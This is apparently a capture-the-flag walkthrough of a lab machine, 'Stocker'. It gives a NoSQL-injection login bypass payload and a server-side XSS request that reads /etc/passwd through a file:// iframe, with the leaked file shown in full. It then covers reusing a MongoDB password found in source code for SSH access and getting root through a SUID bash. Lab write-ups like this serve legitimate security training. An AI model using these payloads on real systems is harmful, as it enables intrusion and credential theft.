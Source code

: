 
### Login bypass
- Change the Content-Type to `application/json` and try NoSQL Injection payload.
`{"username": {"$ne": null}, "password": {"$ne": null}}`
### Server-side XSS
- XSS payload
```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
Content-Length: 278
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Cookie: connect.sid=s%3AQ8M7L4S4fyoqK2S0elooDR3Y09cAfRSO.XrShCReGwmA%2FtXd8pCK8I8cEPFpfFX%2FCRXV5FKPOncQ
Connection: close



{
  "basket": [
    {
      "_id": "638f116eeb060210cbd83a93",
      "title": "<script>document.write('<iframe src=file:///etc/passwd height=\"1000\" width=\"1000\"></iframe>')</script>",
      "description": "It's toilet paper.",
      "image": "toilet-paper.jpg",
      "price": 0.69,
      "currentStock": 4212,
      "__v": 0,
      "amount": 1
    }
  ]
}
```
- Retrieve `/etc/passwd`
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
landscape:x:109:116::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
fwupd-refresh:x:112:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```
- Observe `angoose` has access to `/bin/bash` and there is a `mongodb` user.
- Retrieve mongo in `/var/www/dev/index.js`
```
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```
- Try ssh with credentials `angoose:IHeardPassphrasesArePrettySecure`
### Privilege Escalation
- Pull `linpeas.sh` to target machine. Observe `/bin/bash` has SUID bit set. 
-> `bash -p` to PE as root